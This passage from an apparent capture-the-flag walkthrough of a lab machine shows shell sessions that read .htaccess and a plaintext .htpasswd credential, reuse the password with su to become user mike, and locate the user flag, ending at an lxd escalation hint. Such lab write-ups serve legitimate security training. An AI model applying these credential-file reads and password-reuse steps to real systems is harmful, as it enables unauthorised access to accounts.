 *The folder contains two interesting hidden files, ```.htaccess``` and ```.htpasswd```. The htpasswd file is used to store usernames and passwords for basic authentication of HTTP users. Let's read both files.*

```
www-data@included:/var/www/html$ cat .htaccess
cat .htaccess
RewriteEngine On
RewriteCond %{THE_REQUEST} ^GET.*index\.php [NC]
RewriteRule (.*?)index\.php/*(.*) /$1$2 [R=301,NE,L]
#<Files index.php>
#AuthType Basic
#AuthUserFile /var/www/html/.htpasswd
#Require valid-user
www-data@included:/var/www/html$ cat .htpasswd
cat .htpasswd
mike:Sheffield19
www-data@included:/var/www/html$
```

*The second file contains credentials for user Mike. Often times users re-use the same passwords for multiple services and accounts and compromising one of them might mean that all of them are compromised.*

*If user Mike has used the same password for their system account, we might be able to use the ```su``` utility to acquire a shell with their privileges.*

```
www-data@included:/var/www/html$ su mike
su mike
Password: Sheffield19

mike@included:/var/www/html$ whoami
whoami
mike
mike@included:/var/www/html$
```

*Now we are ready to grab the user flag.*

```
find / -name user.txt 2>/dev/null
```

And the output from my Kali machine looks like this:

```
mike@included:/var/www/html$ find / -name user.txt 2>/dev/null
find / -name user.txt 2>/dev/null
/home/mike/user.txt
mike@included:/var/www/html$ cat /home/mike/user.txt
cat /home/mike/user.txt
a56ef91d70cfbf2cdb8f454c006*****
mike@included:/var/www/html$
```

*The next step is escalating to the root user in order to gain the highest privileges on the system. Looking at the groups that user Mike is a member of, the ```lxd``` group is listed.*
